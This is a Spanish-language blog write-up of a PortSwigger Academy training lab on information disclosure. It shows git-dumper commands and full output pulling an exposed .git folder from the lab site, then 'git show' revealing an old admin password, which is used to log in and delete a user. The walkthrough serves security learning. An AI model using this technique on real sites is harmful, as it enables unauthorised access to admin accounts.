 +++
author = "Alux"
title = "Portswigger Academy Learning Path: Information Disclosure Lab 5"
date = "2021-12-15"
description = "Lab: Source code disclosure via backup files"
tags = [
    "information disclosure",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Source code disclosure via backup files

En este <cite>laboratorio[^1]</cite>la finalidad es poder mostrar en la aplicacion informacion de la infraestructura, software o algo que revele informacion del sistema. Esta vulnerabilidad mas conocida como `Information Disclosure`.

## Reconocimiento

Lo primero que tenemos es una aplicacion que parece todo normal, pero existe algo que al realizar una busqueda el sitio cuenta con una carpeta `.git` que nos dice eso que estan haciendo uso de git para el versionado de la aplicacion y esta carpeta es la que lleva el historial de todos los cambios en el sitio web.

![Archivos de git](git.png)

## Explotacion

Todos estos archivos nos puede llevar a rastrear cambios, visualizar la contrasena del administrador que pudo estar en estor archivos ya que todo el cambio ahi esta registrado y estara el log y podemos regresar a cambios anteriores. Para eso debemos descargar en local toda la carpeta para trabajar con ella, pero con wget se vuelve muy complicado y por eso existe una tool muy buena que es git-dumper que nos descarga la carpeta completa, esta se instala con pip.

```bash
pip install git-dumper
```

Ahora la lanzamos con el sitio y la carpeta .git y la carpeta en la que queremos que se guarden todos nuestros archivos.

```bash
alux@rootsystems:~/tools$ git-dumper https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git test
[-] Testing https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/HEAD [200]
[-] Testing https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/ [200]
[-] Fetching common files
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-receive.sample [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.gitignore [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.gitignore responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-update.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/COMMIT_EDITMSG [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/commit-msg.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-commit.sample [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-applypatch.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/applypatch-msg.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/description [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-push.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-commit.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-rebase.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/index [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-receive.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/info/packs [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/info/packs responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/update.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/info/exclude [200]
[-] Finding refs/
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/HEAD [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/FETCH_HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/FETCH_HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/HEAD [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/info/refs [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/info/refs responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/config [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/ORIG_HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/ORIG_HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/heads/master [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/stash [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/stash responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/packed-refs [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/packed-refs responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/heads/master [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/wtree/refs/heads/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/stash [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/stash responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/master responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/index/refs/heads/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/89/44e3b9853691431dc58d5f4978d3940cea4af2 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/fd/566ec1574b5eb704b3b69a275cdedf33dfc1b9 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/21/d23f13ce6c704b81857379a3e247e3436f4b26 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/63/10c3e39bf987171b2f674fbb643edddbe0e238 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/21/54555944002791a4d27412bf6e9a6f29e942fa [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/2a/43eabe500cc1a50c12bdbf2ed4c1f6ce3f1672 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/21/d2e87f8577056741bb3dd4608cfd7b7506cfa5 [200]
[-] Running git checkout .
```

Ahora que tenemos todos nuestros archivos podemos entrar y ver que esta en los archivos y carpetas creadas. Y hay algo que llama la atencion y es donde esta una contrasena de usuario pero que ahora esta como variable. Podriamos ver el historial si antes estaba ahi la contrasena real y no fue cambiada.

```bash
alux@rootsystems:~/tools/test(master)$ ls -la
drwxr-xr-x  - alux 15 dic 21:55 .git
.rw-r--r-- 37 alux 15 dic 21:55 admin.conf
.rw-r--r-- 88 alux 15 dic 21:55 admin_panel.php
alux@rootsystems:~/tools/test(master)$ cat admin_panel.php;echo
<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
alux@rootsystems:~/tools/test(master)$ cat admin.conf
ADMIN_PASSWORD=env('ADMIN_PASSWORD')
alux@rootsystems:~/tools/test(master)$
```

Para eso nos apoyamos de git y mostramos los cambios que se han realizado y vemos que ahi esta la nueva contrasena y la vieja por lo que deberiamos poder acceder con ella.

```bash
alux@rootsystems:~/tools/test(master)$ git show
commit fd566ec1574b5eb704b3b69a275cdedf33dfc1b9 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 21d2e87..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=ewm1p3s0m5xon81jftcj
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Y ahora ingresamos las credenciales de `administrator:ewm1p3s0m5xon81jftcj`, eliminamos al usuario carlos y resolvimos el lab:

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files)